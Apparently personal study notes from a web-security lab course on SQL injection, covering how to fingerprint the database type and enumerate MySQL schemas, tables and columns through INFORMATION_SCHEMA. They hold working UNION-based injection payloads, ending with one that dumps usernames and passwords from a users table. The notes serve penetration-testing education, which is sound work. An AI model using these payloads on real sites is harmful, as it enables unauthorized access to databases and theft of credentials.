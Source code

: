 Before enumerating the database, we usually need to identify the type of DBMS we are dealing with. This is because each DBMS has different queries, and knowing what it is will help us know what queries to use.

1-
>`if the webserver we see in HTTP responses is `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL``

2-
>`Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server`




|Payload|When to Use|Expected Output|Wrong Output|
|---|---|---|---|
|`SELECT @@version`|When we have full query output|MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'|In MSSQL it returns MSSQL version. Error with other DBMS.|
|`SELECT POW(1,1)`|When we only have numeric output|`1`|Error with other DBMS|
|`SELECT SLEEP(5)`|Blind/No Output|Delays page response for 5 seconds and returns `0`.|Will not delay response with other DBMS|


## INFORMATION_SCHEMA Database
To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries. To do so, we need the following information:

- List of databases
- List of tables within each database
- List of columns within each table

```sql
SELECT * FROM my_database.users;
```

## SCHEMATA
The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server. It is used to obtain database names so we can then query them. The `SCHEMA_NAME` column contains all the database names currently present.

```sql
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

Note: The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![[udn0ffmx.png]]

We can find the current database with the `SELECT database()` query
We can find the current user with the `SELECT user()` query


```sql
cn' UNION select 1,database(),2,3-- -
```

![[rzamivyj.png]]
## TABLES
```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='ilfreight'-- -
```
This table contains multiple columns, but we are interested in the `TABLE_SCHEMA` and `TABLE_NAME` columns. The `TABLE_NAME` column stores table names, while the `TABLE_SCHEMA` column points to the database each table belongs to.
## COLUMNS

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='users'-- -
```
## Data
```sql
cn' UNION select 1, username, password, 4 from ilfreight.users-- -
```

